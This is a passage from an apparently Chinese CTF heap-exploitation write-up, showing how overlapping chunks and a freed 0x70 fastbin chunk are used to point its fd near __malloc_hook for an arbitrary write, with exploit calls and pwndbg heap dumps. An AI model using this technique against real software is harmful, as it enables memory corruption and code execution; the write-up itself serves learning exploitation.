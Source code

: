 下面我们就要进行构造fastbin造成任意写了

我们先申请个chunk2

add(0x80)

和之前构造堆重叠一个道理不过这次我们要的是fastbin的chunk

edit(1,0x90,p64(0)*2+p64(0)+p64(0x71)+p64(0)*12+p64(0x70)+p64(0x21))

上面的edit是对chunk1编写改出个chunk2的大小来

不难发现chunk2又被包含在了chunk1中

```c
pwndbg> x/32gx 0x556b562fd000
0x556b562fd000:	0x0000000000000000	0x0000000000000021
0x556b562fd010:	0x6161616161616161	0x6161616161616161
0x556b562fd020:	0x0000000000000020	0x00000000000000a1
0x556b562fd030:	0x0000000000000000	0x0000000000000000
0x556b562fd040:	0x0000000000000000	0x0000000000000071
0x556b562fd050:	0x0000000000000000	0x0000000000000000
0x556b562fd060:	0x0000000000000000	0x0000000000000000
0x556b562fd070:	0x0000000000000000	0x0000000000000000
0x556b562fd080:	0x0000000000000000	0x0000000000000000
0x556b562fd090:	0x0000000000000000	0x0000000000000000
0x556b562fd0a0:	0x0000000000000000	0x0000000000000000
0x556b562fd0b0:	0x0000000000000070	0x0000000000000021
0x556b562fd0c0:	0x0000000000000000	0x0000000000000000
0x556b562fd0d0:	0x0000000000000000	0x0000000000000000
0x556b562fd0e0:	0x0000000000000000	0x0000000000000021
0x556b562fd0f0:	0x0000000000000000	0x0000000000000000

```

此时我们去dele chunk2

他就进入了fastbin区块

然后往里面写入任意写的函数地址

我们可以看看他的fd bk指向哪里了

edit(1,0x30,p64(0)*2+p64(0)+p64(0x71)+p64(malloc_hook+libc_base-0x23)*2)

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x560da9fda040 —▸ 0x7f8c8e03eaed (_IO_wide_data_0+301) ◂— 0x8c8dcffea0000000
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

```
